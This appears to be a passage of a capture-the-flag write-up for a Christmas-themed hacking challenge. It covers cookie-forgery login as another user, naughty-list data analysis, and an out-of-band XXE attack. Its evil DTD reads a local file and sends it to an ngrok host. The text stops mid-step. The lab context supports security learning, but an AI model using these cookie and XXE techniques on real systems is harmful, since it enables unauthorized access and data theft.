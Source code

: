 **Answer:** The name of the share is "FileStor"  

> 4. Elf Web Access (EWA) is the preferred mailer for North Pole elves, available internally at http://mail.northpolechristmastown.com. What can you learn from The Great Book page found in an e-mail on that server?

First we set up an SSH tunnel to the mail server using the SSH access on the L2S server.
Look in the robots.txt at "mail.northpolechristmastown.com/robots.txt" to find the "/cookie.txt" file.
If we submit a cookie with a ciphertext which is exact 16 bytes long, the decrypted plaintext will be 0 bytes and always match.
Since the ciphertext is base64 encoded we need to submit a 22 (ceil(16\*4/3)) byte ciphertext for it to work.
By using the cookie `{"name":"alabaster.snowball%40northpolechristmastown.com","plaintext":"","ciphertext":"QUFBQUFBQUFBQUFBQUFBQQ"}` we can log in as Alabaster Snowball and read e-mails.

**Answer:** On the page we learn about "The Lollipop Guild"  

> 5. How many infractions are required to be marked as naughty on Santa's Naughty and Nice List? What are the names of at least six insider threat moles? Who is throwing the snowballs from the top of the North Pole Mountain and what is your proof?

In the SMB files we find a report pointing towards two moles and a link to the police department website.
Downloadning the infraction data and parsing it to csv we correleate it with the naughty list csv file found.
Ignoring the number of coals per infractions and their status we clearly see a cut off at 4 infractions where everyone at 4 or above is on the naughty list and others are not.
In the report, we find the name of two high scoring perpetrators. We assume that the other moles are high-scoring as well.  

**Answer A:** Getting 4 or more infractions puts you on the naughty list.  
**Answer B:** "Boq Questrian" and "Bini Aru" from the report. "Felix Mclean","Juanita Burgess","Manuel Graham" and "Tina Humphrey" are four other with high scores, probably moles.  
**Answer C:** The Abominable Snow Monster is throwing the snowballs as stated in the chat.

> 6. The North Pole engineering team has introduced an Elf as a Service (EaaS) platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?

We see that we can upload an XML file to the server so let's try a XXE attack.
We can use ngrok to set up an ad-hoc web-server with `python -m SimpleHTTPServer`
We host the evil DTD file as described in the SANS article (https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities/)
The DTD file looks like this:

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'https://e88248eb.ngrok.io/?%stolendata;'>">
```

We then upload a payload XML containing 
